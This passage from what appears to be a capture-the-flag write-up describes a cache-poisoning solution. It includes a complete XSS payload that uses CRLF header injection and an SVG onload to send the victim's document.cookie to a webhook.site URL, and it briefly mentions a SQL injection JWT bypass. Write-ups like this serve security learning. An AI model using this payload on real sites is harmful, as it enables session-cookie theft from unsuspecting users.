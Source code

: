 And I had a cookie from the same localhost origin that was caught in Burp so of course my poisoning didn't work.... -.-

Should have been obvious it would not cache with a cookie by default in hindsight I guess.

Well with this solved I could pollute any response with that from the Zig backend. But it is hashing with `hash_data(req.http.CacheKey);` and the bot doesn't set that HTTP header?
Exactly, so if I also don't set that header it is hashing NULL/0 (or some default), which is also the same for the bot so it hits my cache entry anyway.

The XSS payload is:

```
GET /oracle/<svg%20onload=fetch('https%3a%2f%2fwebhook.site%2f06789c59-ec40-4b03-a76b-cafe07409502%2f%3fc%3d'%2bdocument.cookie)>/1%0d%0aCacheKey%3a%20enable%0d%0aAge%3a1%0d%0aContent-Type%3a%20text%2fhtml HTTP/1.1
```

Nothing crazy. The middle path entry gets inserted to response as HTML. The CRLF also sets a Content-Type header because content sniffing was disabled.

The rest of the challenge was boring, a trivial SQL injection to bypass a JWT check and the `os.path.join` path truncation that has been seen many times before.